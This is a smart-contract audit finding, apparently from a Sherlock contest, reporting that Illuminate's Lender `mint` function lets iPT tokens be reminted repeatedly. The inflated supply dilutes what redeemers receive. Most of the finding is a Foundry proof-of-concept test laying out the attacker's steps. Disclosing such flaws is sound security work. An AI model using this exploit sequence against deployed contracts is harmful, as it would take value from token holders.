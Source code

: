 Jeiwan

high

# Users can receive less tokens during redeeming due to iPT inflation in the `mint` function

## Summary
Users can receive less tokens during redeeming due to iPT inflation in the `mint` function
## Vulnerability Detail
The `mint` function of `Lender` mints new iPT tokens when iPT tokens are deposited ([Lender.sol#L270-L288](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270-L288)). This inflates the supply of iPT tokens, which impairs iPT tokens redemption: redeemers will get a smaller share of the underlying tokens ([Redeemer.sol#L422](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L422)).
## Impact
An attacker can intentionally inflate the supply of iPT tokens of a specific maturity and reduce the number of underlying tokens redeemers will get during redeeming.
## Code Snippet
```solidity
// test/fork/Lender.t.sol
function testMintIPTInflation_AUDIT() public {
    vm.startPrank(msg.sender);
    IERC20(Contracts.ELEMENT_TOKEN).approve(address(l), type(uint256).max);
    vm.stopPrank();

    deployMarket(Contracts.USDC);
    runCheatcodes(Contracts.USDC);
    deal(Contracts.ELEMENT_TOKEN, msg.sender, startingBalance);

    // First, the attacker obtains some iPT tokens.
    l.mint(uint8(3), Contracts.USDC, maturity, startingBalance);

    address ipt = mp.markets(Contracts.USDC, maturity, 0);
    assertEq(startingBalance, IERC20(ipt).balanceOf(msg.sender));
    assertEq(0, IERC20(ipt).balanceOf(address(l)));

    IERC20(ipt).approve(address(l), type(uint256).max);

    // Then, the attacker deposits the iPT tokens and mints new iPT tokens.
    l.mint(uint8(0), Contracts.USDC, maturity, startingBalance);

    // Attacker's balance hasn't changed; Lender's balance has increased.
    assertEq(startingBalance, IERC20(ipt).balanceOf(msg.sender));
    assertEq(startingBalance, IERC20(ipt).balanceOf(address(l)));

    l.mint(uint8(0), Contracts.USDC, maturity, startingBalance);

    // Lender's balance has increased even more, although the attacker used the same tokens.
    assertEq(startingBalance, IERC20(ipt).balanceOf(msg.sender));
    assertEq(startingBalance * 2, IERC20(ipt).balanceOf(address(l)));

    // The underlying tokens are not transferred in these mints, so the attacker pays only tx cost.
}
```
## Tool used
Manual Review
## Recommendation
Consider disallowing minting of iPT tokens.